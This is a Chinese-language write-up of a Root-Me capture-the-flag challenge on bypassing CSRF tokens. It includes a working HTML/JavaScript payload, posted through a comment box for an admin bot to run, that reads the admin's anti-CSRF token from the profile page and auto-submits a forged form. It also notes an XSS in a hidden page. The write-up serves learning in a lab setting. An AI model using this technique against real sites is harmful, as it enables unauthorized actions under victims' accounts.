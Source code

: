 ## [[Root-Me](https://www.root-me.org/)] [[Web-Client](https://www.root-me.org/en/Challenges/Web-Client/)] [[CSRF - token bypass](https://www.root-me.org/en/Challenges/Web-Client/HTML-disabled-buttons)] [[解题报告](http://exp-blog.com/2019/01/13/pid-2933/)]

------

这题与【[Web-Client : CSRF - 0 protection](http://exp-blog.com/2019/01/13/pid-2927/)】是一样的，只是多了一个 token 校验。

切到 Profile 选项卡，打开浏览器开发者工具，切到 Elements ，可以看到激活表单多了一个实时刷新的 `token`，而且在本地找不到关于这个 `token` 的生成代码，因此可以推断这个 `token` 是与登录账号绑定、且由 web 服务器生成的。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B12%5D%20%5B45P%5D%20CSRF%20-%20token%20bypass/imgs/01.png)

于是我们的目的就是需要在原本利用 robot-admin 的 Cookie 的基础上，再同时利用其 `token` 。

由此构造 payloads 如下（此 payloads 与【[Web-Client : CSRF - 0 protection](http://exp-blog.com/2019/01/13/pid-2927/)】大致相同，只是多了一个步骤，就是让 robot-admin 先访问 Profile 选项卡获取其 `token`，加到 form 表单后再提交）：

```javascript
<form name="csrf" action="http://challenge01.root-me.org/web-client/ch23/?action=profile" method="post" enctype="multipart/form-data">
    <input type="hidden" name="username" value="exp" />  <!-- 激活账号，根据实际修改  -->
    <input type="hidden" name="status" value="on" />  <!-- 激活动作 -->
    <input id="admin-token" type="hidden" name="token" value="" />  <!-- 网站用于防止 CSRF 的 token，需绕过 -->
</form>
<script>

	// 使用 robot-admin 的身份获取 robot-admin 的 token，用于绕过 CSRF 校验
	var request = new XMLHttpRequest();
	request.open("GET", decodeURIComponent("http://challenge01.root-me.org/web-client/ch23/?action=profile"), false);
	request.send(null);	
	var respone = request.responseText;
	var groups = respone.match("token\" value=\"(.*?)\"");
	var token = groups[1];
	
	document.getElementById("admin-token").value = token;	// 置换 robot-admin 的 token
	document.csrf.submit();
</script>
```

将 payloads 其拷贝到 Contact 选项卡的 Comment 输入框提交。

多刷新几次 Private 选项卡，等待 robot-admin 触发 payloads，最终得到 flag，完成挑战。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B12%5D%20%5B45P%5D%20CSRF%20-%20token%20bypass/imgs/02.png)

> 注：查看页面源码发现有一个隐藏的选项卡 Search 被注释了 `<!--| <a href="?action=search">Search</a> -->`，打开该选项卡，里面有一个 XSS 漏洞，但是暂时没发现这个漏洞对于本题有什么用（可能只是用来方便我们调试，但应该没那么好心，应该是用来误导的）。

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Client/%5B12%5D%20%5B45P%5D%20CSRF%20-%20token%20bypass/imgs/03.png)

------

## 版权声明

　[![Copyright (C) EXP,2016](https://img.shields.io/badge/Copyright%20(C)-EXP%202016-blue.svg)](http://exp-blog.com)　[![License: GPL v3](https://img.shields.io/badge/License-GPL%20v3-blue.svg)](https://www.gnu.org/licenses/gpl-3.0)
  

- Site: [http://exp-blog.com](http://exp-blog.com) 
- Mail: <a href="mailto:289065406@qq.com?subject=[EXP's Github]%20Your%20Question%20（请写下您的疑问）&amp;body=What%20can%20I%20help%20you?%20（需要我提供什么帮助吗？）">289065406@qq.com</a>


------
